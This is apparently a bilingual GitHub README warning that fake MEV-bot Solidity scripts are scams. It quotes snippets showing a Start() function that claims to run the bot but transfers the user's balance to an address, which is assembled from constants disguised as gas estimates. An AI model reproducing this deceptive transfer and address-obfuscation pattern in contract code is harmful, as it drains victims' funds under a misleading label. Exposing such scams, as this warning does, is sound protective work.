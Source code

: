 # mev-bot-fraud
be careful the fake mev-bot codes 

本来想研究一下 mevbot 的，没想到发现一个骗局，所以想提醒一下大家以免被骗了，很多类似这个项目https://github.com/KayExpertbots/Mevbot 的假脚本都是诈骗的

Wanted to study the mevbot, unexpectedly found a scam, so want to remind you to avoid being cheated, many similar to this project of https://github.com/KayExpertbots/Mevbot, a fake script is fraud 

```
    function Start() public payable {
        emit Log("Running MEV action. This can take a while; please wait..");
        payable(_callMEVAction()).transfer(address(this).balance);
    }

```

Start 看起来是个启动脚本实际是个 transfer，会把你的余额转到一个地址，`_callMEVAction()` 这个方法其实最后就是会生成一个钱包地址，绕来绕去的就是想骗一些新手，所以大家一定要看好了，看到这样的代码一定要小心了

Start looks like a startup script is actually a transfer, will transfer your balance to an address, '_callMEVAction()' This method is actually the last will generate a wallet address, around is to cheat some beginners, so we must look at it, see this code must be careful 

![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/dc4f05ca-abf7-4146-84d6-d528f08195f1)

```
transfer(address(this).balance);
```

```
 function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 3410611; //Gas estimate update
        uint _memPoolLength = 2418259; //Gas estimate update
        uint _memPoolSize = 2563395760; //Gas estimate update
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolDepth = getMemPoolDepth();

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = checkLiquidity(_memPoolHeight);
        string memory _memPool4 = checkLiquidity(_memPoolDepth);

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

```
![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/7334fcdc-405c-45ce-9753-317cc112c9bd)

这些都是骗人的 所以提醒一下，大家也可以帮忙点点星星，让更多人看到

These are all lies so just a reminder, you can also help to light up the stars, so that more people can see 

<img width="1360" alt="image" src="https://github.com/chunsenye/mev-bot-fraud/assets/30768615/b87707ad-ae0c-4d49-892c-a54af47947d2">

